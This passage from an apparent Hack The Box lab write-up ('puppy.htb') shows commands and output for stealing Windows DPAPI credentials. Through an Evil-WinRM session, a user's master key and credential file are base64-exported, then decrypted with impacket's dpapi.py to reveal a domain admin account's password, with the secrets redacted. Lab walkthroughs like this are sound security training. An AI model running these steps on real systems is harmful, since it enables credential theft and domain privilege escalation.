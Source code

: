 We can convert the files to a `base64` string and copy it
```bash
*Evil-WinRM* PS C:\> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407'))
# <BASE64_REDACTED>
*Evil-WinRM* PS C:\> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9'))
# <BASE64_REDACTED>
```

On our machine we can decode it
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ base64 -d decode1.txt > 556a2412-1275-4ccf-b721-e6a0b4f90407

┌──(kali@kali)-[~/puppy.htb]
└─$ base64 -d decode2.txt > C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

Now we can extract the key using `steph.cooper`'s password
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password '<PASSWORD_REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: <KEY_REDACTED>
```

Using this key we can decrypt the credential file
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key <KEY_REDACTED>

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : <PASSWORD_REDACTED>
```
